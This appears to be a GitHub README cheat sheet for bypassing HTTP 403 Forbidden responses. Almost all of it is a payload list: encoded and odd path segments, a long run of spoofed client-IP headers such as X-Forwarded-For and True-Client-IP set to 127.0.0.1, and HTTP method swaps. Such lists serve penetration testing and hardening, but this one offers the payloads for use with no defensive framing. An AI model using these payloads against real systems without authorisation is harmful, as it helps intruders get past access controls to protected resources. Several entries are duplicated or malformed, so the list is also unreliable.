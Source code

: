 # Bypass-403
Bypassing 403 Forbidden: Technique and Methodology

## URL Manipulation
Add this in paths of the URL and the file which is forbidden
- /*-
- /%2f/
- /./
- /
- /*/
- {%2e}
- {%2f}
- { /*, /./}


## Headers Manipulation
Try to add Add this custom url
* X-Custom-IP-Authorization: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forward-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-Client-IP: 127.0.0.1
* X-Real-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forwarded: 127.0.0.1
* Forwarded-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* X-Original-URL: 127.0.0.1
* Client-IP: 127.0.0.1
* True-Client-IP: 127.0.0.1
* Cluster-Client-IP: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* Host: localhost: 127.0.0.1


## Change requested method

GET → POST, GET → TRACE, GET → PUT, GET → OPTIONS
